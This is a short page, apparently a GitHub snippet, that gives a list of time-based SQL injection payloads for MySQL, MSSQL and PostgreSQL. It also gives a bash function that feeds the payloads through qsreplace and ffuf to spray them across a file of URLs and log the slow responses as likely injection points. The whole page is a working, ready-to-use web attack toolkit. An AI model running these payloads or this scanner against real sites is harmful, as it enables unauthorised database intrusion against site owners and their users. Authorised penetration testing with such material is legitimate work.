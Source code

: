 ### Time Based Sql Injection with ffuf

* Payloads: save this in payloads file

```
XOR(if(now()=sysdate(),sleep(5),0))OR%27
if(now()=sysdate(),sleep(5),0)
(select(0)from(select(sleep(5)))v)/*%27+(select(3)from(select(sleep(5)))v)+%27%22+(select(0)from(select(sleep(5)))v)+%22*/
%27XOR(if(now()=sysdate(),sleep(5*1),0))XOR%27Z
1%20AND%20(SELECT%20*%20FROM%20(SELECT(SLEEP(5)))YYYY)%20AND%20%27%%27=%27
1%27XOR(if(now()=sysdate(),sleep(5),0))OR%27
1%20AND%20(SELECT%201337%20FROM%20(SELECT(SLEEP(5)))YYYY)-1337
1%20or%20sleep(5)%23
%27%20WAITFOR%20DELAY%20%270:0:5%27--
%%27;SELECT%20PG_SLEEP(5)--
pg_sleep(5)
%27|%20|pg_sleep(5)--
```


* Add in .bashrc function

```
# Time Based Sql Injection
sqliTime(){
for i in $(cat ~/.pathToPayloadsList/payloads) ; do
  cat $1 | qsreplace "$i" > sqli
  ffuf -u FUZZ -w sqli -s -ft "<5000" | tee -a vulnSqli.txt
  rm sqli
done
}
```

### Usage:
```
sqliTime urls.txt
```
